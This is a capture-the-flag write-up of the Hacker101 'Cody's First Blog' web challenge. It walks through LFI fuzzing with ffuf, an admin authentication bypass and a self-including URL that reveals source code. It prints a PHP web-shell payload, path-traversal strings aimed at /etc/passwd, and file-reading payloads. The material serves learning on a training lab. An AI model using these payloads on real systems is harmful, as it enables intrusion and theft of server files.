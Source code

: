 # Cody's First Blog
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 3/3

---

## 🧠 Thought Process
When I first accessed the website, I immediately started reconnaissance. I examined the content and checked the source code to understand the application structure. I noticed several potential attack vectors:

1. An admin login page referenced in the source code
2. A comment section for user input (potential injection point)
3. A mention of PHP `include()` function usage, suggesting possible Local File Inclusion (LFI)
4. The blog post mentioning that "PHP doesn't need a template language because it *is* a template language"

Multiple attack paths were available, so I decided to explore them systematically.

---

## 🔍 Step 1: Local File Inclusion (LFI) Discovery
I started by fuzzing for LFI vulnerabilities using `ffuf` with a wordlist from SecLists:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt -O lfi.txt
ffuf -u "https://c663cfaeb30f0d6e6437dbf942b65ab7.ctf.hacker101.com/?page=../../../../FUZZ%00" -w lfi.txt -fs 0
```

The fuzzing revealed multiple LFI paths, including:
- `../../apache/logs/access.log`
- `/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- Various other system files

However, when I tried to exploit these paths, I encountered inclusion errors, indicating the files weren't being properly included for execution.

---

## 🚩 Step 2: First Flag - Direct PHP Code Execution via Comments
Instead of continuing with the LFI approach, I pivoted to the comment section. I realized I could potentially inject PHP code directly through user input.

I submitted the following PHP payload in the comment form:
```php
<?php system($_GET['cmd']); ?>
```

**Surprisingly, this immediately revealed the first flag!** The comment section was directly executing PHP code without proper sanitization.

![First Flag](FirstFlag.png)

---

## 🔐 Step 3: Second Flag - Admin Panel Authentication Bypass
Next, I investigated the admin login page that was referenced in the HTML source:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

I tried accessing `?page=admin.auth.inc` but it seemed to require authentication. However, I had a hunch about the file structure. I tried removing the "auth" portion from the URL:

**Before:** `?page=admin.auth.inc`

![Admin Auth Required](AdminAuthInc.png)

**After:** `?page=admin.inc`

![Admin Panel Access](AdminAuth.png)

This bypassed the authentication entirely! The admin panel was accessible, and the second flag was displayed right there.

---

## 📝 Step 4: Third Flag - Source Code Disclosure via Remote File Inclusion
For the final flag, I needed to read the source code of the application. I went back to the comment section and tried various PHP payloads to read files:

```php
<?php echo readfile("index.php")?>
<?php echo file_get_contents("index.php")?>
```

After submitting these comments, they appeared in the admin panel but weren't visible on the client side. I realized I needed to find a way to make the comments execute properly. The picture below shows the approved comments from the admin panel:

![Approved Comments](ApprovedComments.png)

Through research and experimentation, I discovered that by accessing:
```
/?page=http://localhost/index
```

This made the comments execute properly, and when I checked the source code of the resulting page, I could see the contents of `index.php` along with the third flag embedded in the source.

![Source Code Flag](SourceCodeFlag.png)

### 🔬 Technical Explanation: Why This Works

This technique exploits a **Remote File Inclusion (RFI)** vulnerability combined with PHP's HTTP wrapper functionality. Here's the breakdown:

**1. PHP Configuration Requirements:**
- The server has `allow_url_include` enabled in PHP configuration
- This allows `include()` and `require()` functions to fetch files via HTTP URLs

**2. Self-Referential HTTP Inclusion:**
When you access `/?page=http://localhost/index`, the vulnerable code becomes:
```php
include('http://localhost/index.php');
```

**3. The Execution Flow:**
- Your browser requests `/?page=http://localhost/index`
- PHP's `include()` makes an HTTP request to `http://localhost/index.php` (itself)
- This creates a **self-referential inclusion** where the server includes its own content
- The HTTP wrapper processes the request differently than direct file system access

**4. Why Comments Execute This Time:**
- The HTTP wrapper inclusion triggers a fresh execution context
- Previously injected PHP code in comments gets properly parsed and executed
- The combination of HTTP processing + PHP execution reveals both the source code AND executes embedded PHP

**5. Source Code Exposure:**
- The HTTP wrapper approach bypasses certain local file restrictions
- Raw PHP source becomes visible in the response
- Any embedded flags in the source code are exposed

This is a classic example of how misconfigurations (`allow_url_include` + poor input validation) can lead to both Remote Code Execution and source code disclosure.

---

## 🏁 Captured Flags
- **Flag 1:** Found through direct PHP code execution in comments
- **Flag 2:** Discovered by bypassing admin authentication 
- **Flag 3:** Retrieved through source code disclosure via Remote File Inclusion

---

## ✅ Summary
This challenge demonstrated multiple web vulnerabilities:

1. **Code Injection:** The comment system directly executed PHP code without sanitization
2. **Authentication Bypass:** Removing "auth" from the admin URL bypassed security
3. **Remote File Inclusion (RFI):** Combined with HTTP wrapper exploitation to read source files
4. **Improper Input Validation:** Multiple injection points throughout the application

The key lesson is that web applications using PHP's `include()` function with user input are extremely dangerous, especially when combined with insufficient input validation and authentication mechanisms. The combination of `allow_url_include` being enabled and poor input sanitization created a perfect storm for multiple attack vectors.

---

## 🛠️ Tools Used
- **ffuf** - For fuzzing LFI vulnerabilities
- **curl** - For making HTTP requests and testing payloads
- **SecLists** - For comprehensive wordlists
- **Browser Developer Tools** - For source code inspection
